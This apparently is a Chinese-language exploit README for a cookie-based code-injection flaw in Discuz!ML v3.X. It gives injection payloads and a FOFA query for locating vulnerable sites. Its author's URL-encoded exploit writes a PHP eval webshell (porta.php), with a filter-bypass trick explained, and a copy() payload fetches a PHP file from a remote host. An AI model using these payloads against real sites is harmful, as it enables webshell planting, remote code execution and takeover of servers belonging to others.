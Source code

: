 漏洞发生的版本为 Discuz 国际版。Discuz!ML v3.X

用户数量不多，所以影响不大 product of codersclub.org

cookie 中 language 字段未添加 过滤所致，可以上传一句话木马

payload

'.phpinfo().'

'.system(dir).'

'.whoami.'

'.system(whoami).'

'.file_put_contents(,).'

fofa 查询特征: ```2009-2019 codersclub.org```


poc.py 为网上公布的监测poc,误报率较高

exp.txt 为 我写的exp

test.php 为我写的exp经一次url解码

test_copy.php 为检测 copy函数的php代码，验证通过

exp内容：

```%27.%20file_put_contents%28%27porta.php%27%2Curldecode%28%27%253C%253Fphp%2520%2540eval%2528%2524_%27%29.strtoupper%28urldecode%28%27POST%27%29%29.urldecode%28%27%255B%2522lee%2522%255D%2529%253B%253F%253E%27%29%29.%27```

urldecode:

```'.file_put_contents('porta.php',urldecode('%3C%3Fphp%20%40eval%28%24_').strtoupper(urldecode('POST')).urldecode('%5B%22lee%22%5D%29%3B%3F%3E')).'```

二次urldecode:

```'. file_put_contents('porta.php',urldecode('<?php @eval($_').strtoupper(urldecode('POST')).urldecode('["lee"]);?>')).'```


使用 strtoupper  因为  discuz 会 str_replace 把大写字母都换成小写字母。导致 $_POST 变成 $_post 无法写一句话木马，所以把它转化为大写

.  php  字符串连接符

第二个exp我没有复现成功,报错 directory_notfound: ./data/template

利用php copy 函数,思路还是很不错的

```copy("http:".chr(47).chr(47)."192.168.1.101:8081".chr(47)."phpinfo.php","123.php")```

